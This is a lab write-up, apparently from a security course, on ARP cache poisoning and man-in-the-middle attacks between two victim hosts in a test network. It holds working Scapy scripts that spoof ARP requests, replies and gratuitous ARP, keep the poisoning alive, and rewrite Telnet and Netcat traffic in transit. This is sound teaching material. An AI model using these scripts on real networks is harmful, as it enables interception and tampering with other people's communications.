


# AITM AND ARP CACHE POISONING

## 1. ARP CACHE POISONING

The objective of the first part is to gain familiarity with **ARP spoofing**.
The setup includes three machines on the same local network: two victims (**A**, **B**) and one attacker (**M**).

The machines have the following network configuration:

| Machine | IP address | MAC address       |
| ------- | ---------- | ----------------- |
| M       | 10.9.0.105 | 02:42:0a:09:00:69 |
| A       | 10.9.0.5   | 02:42:0a:09:00:05 |
| B       | 10.9.0.6   | 02:42:0a:09:00:06 |

From now on, hosts will be identified using symbols such as `MAC_A`, `IP_M`, etc.

---

### 1.1 ARP Request

The task is to construct an **ARP request** on host `M` that poisons host `A`’s ARP cache by associating `B`’s IP address with `M`’s MAC address.

The following Python script was used:

```python
from scapy.all import *

E = Ether(src=MAC_M, dst=MAC_A)
A = ARP(psrc=IP_B, pdst=IP_A, hwsrc=MAC_M, op=1)

pkt = E / A
sendp(pkt)
```

This successfully poisons the ARP cache of host `A`, as shown by:

```
$ arp -n
Address     HWtype  HWaddress           Flags Mask  Iface
10.9.0.6    ether   02:42:0a:09:00:69   C           eth0
```

---

### 1.2 ARP Reply

The task is to construct an **ARP reply** on host `M` to map `B`’s IP address to `M`’s MAC address.
The attack is tested under two scenarios:

* `B` **is already present** in `A`’s ARP cache
* `B` **is not present** in `A`’s ARP cache

The script used is:

```python
from scapy.all import *

E = Ether(src=MAC_M, dst=MAC_A)
A = ARP(
    psrc=IP_B,
    pdst=IP_A,
    hwsrc=MAC_M,
    hwdst=MAC_A,
    op=2
)

pkt = E / A
sendp(pkt)
```

Observed behavior:

* If `B` is already present in `A`’s ARP cache, the cache entry is successfully overwritten.
* If `B` is not present, the unsolicited ARP reply is ignored and no cache entry is created.

In the successful case, the ARP cache contents are identical to those observed in [Section 1.1](#11-arp-request).

---

### 1.3 Gratuitous ARP

The task consists of constructing a **gratuitous ARP request** to map `B`’s IP address to `M`’s MAC address.

The code used is:

```python
from scapy.all import *

E = Ether(src=MAC_M, dst=MAC_BCAST)
A = ARP(
    psrc=IP_B,
    pdst=IP_B,
    hwsrc=MAC_M,
    hwdst=MAC_BCAST,
    op=1
)

pkt = E / A
sendp(pkt)
```

As in the previous case, host `A` updates its ARP cache **only if an entry for `B` already exists**. Otherwise, the gratuitous ARP request is ignored.

---

## 2. MITM ATTACK ON TELNET

Hosts `A` and `B` communicate using **Telnet**.
The attacker `M` aims to intercept and manipulate their communication by performing a **Man-in-the-Middle (MITM)** attack.

---

### 2.1 ARP Cache Poisoning Attack

`M` performs ARP poisoning against both `A` and `B`, associating each victim’s IP address with `M`’s MAC address.
As a result, all traffic between `A` and `B` flows through `M`.

To maintain the poisoned state, ARP packets must be sent periodically:

```python
from scapy.all import *
import time

pkt_A = Ether(src=MAC_M, dst=MAC_BCAST) / ARP(
    psrc=IP_B, hwsrc=MAC_M, pdst=IP_A, op=1
)

pkt_B = Ether(src=MAC_M, dst=MAC_BCAST) / ARP(
    psrc=IP_A, hwsrc=MAC_M, pdst=IP_B, op=1
)

while True:
    sendp(pkt_A, verbose=False)
    sendp(pkt_B, verbose=False)
    time.sleep(5)
```

This establishes the MITM position.

---

### 2.2 Testing

After the attack is active, connectivity between `A` and `B` is tested.

If IP forwarding is **disabled** on `M`:

```bash
sysctl -w net.ipv4.ip_forward=0
```

packets are dropped and communication fails:

```
PING 10.9.0.6 (10.9.0.6) 56(84) bytes of data.

--- 10.9.0.6 ping statistics ---
1 packet transmitted, 0 received, 100% packet loss
```

---

### 2.3 IP Forwarding

When IP forwarding is **enabled** again:

```bash
sysctl -w net.ipv4.ip_forward=1
```

packets successfully reach the destination, confirming that the MITM attack is working:

```
64 bytes from 10.9.0.6: icmp_seq=1 ttl=63 time=0.454 ms
```

---

### 2.4 MITM Attack on Telnet

The goal is to actively manipulate the Telnet session.
For each keystroke typed by `A`, the attacker replaces every printable character with the letter `z`.

Steps:

1. Poison ARP caches of `A` and `B`
2. Enable IP forwarding to establish the Telnet session
3. Disable IP forwarding to block direct forwarding
4. Run the packet sniffing and spoofing script

```python
from scapy.all import *

def spoof_pkt(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(TCP):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            del newpkt[TCP].payload

            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                newdata = bytes(
                    byte if byte <= 0x20 else ord('z')
                    for byte in data
                )
                send(newpkt / newdata, verbose=False)
            else:
                send(newpkt, verbose=False)

        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            send(newpkt, verbose=False)

f = f"tcp and not ether src {MAC_M}"
sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

The resulting Telnet session is shown below:


---

## 3. MITM ATTACK ON NETCAT

Using a similar setup, the attack is repeated with **Netcat**:

* Host `B` listens with:

  ```bash
  nc -lp 9090
  ```
* Host `A` connects using:

  ```bash
  nc 10.9.0.6 9090
  ```

The attacker replaces every occurrence of the username `"alessandro"` with a string of `a` characters of the same length.

```python
from scapy.all import *

NAME = b"alessandro"
REPL = b"a" * len(NAME)

def spoof_pkt(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(TCP):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            del newpkt[TCP].payload

            if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                newdata = data.replace(NAME, REPL)
                send(newpkt / newdata, verbose=False)
            else:
                send(newpkt, verbose=False)

        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
            newpkt = IP(bytes(pkt[IP]))
            del newpkt.chksum
            del newpkt[TCP].chksum
            send(newpkt, verbose=False)

f = f"tcp and not ether src {MAC_M}"
sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

This results in the following message exchange:


On the left, the communication is shown from host `A`’s perspective; on the right, from host `B`’s.
